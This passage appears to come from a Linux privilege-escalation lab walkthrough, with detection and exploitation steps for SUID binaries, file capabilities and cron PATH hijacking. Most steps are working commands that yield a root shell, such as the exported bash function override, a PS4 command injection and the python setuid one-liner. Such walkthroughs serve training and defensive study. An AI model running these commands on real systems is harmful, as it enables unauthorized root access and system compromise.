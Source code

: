 Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

Exploitation Method #2

Linux VM

1. In command prompt type:
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'

##  Privilege Escalation - Capabilities 

Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

Linux VM

1. In command prompt type:
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
2. Enjoy root!

##  Privilege Escalation - Cron (Path) 

Detection

Linux VM

1. In command prompt type: cat /etc/crontab
2. From the output, notice the value of the “PATH” variable.

Exploitation

Linux VM

1. In command prompt type:
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
2. In command prompt type: chmod +x /home/user/overwrite.sh
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: /tmp/bash -p
5. In command prompt type: id
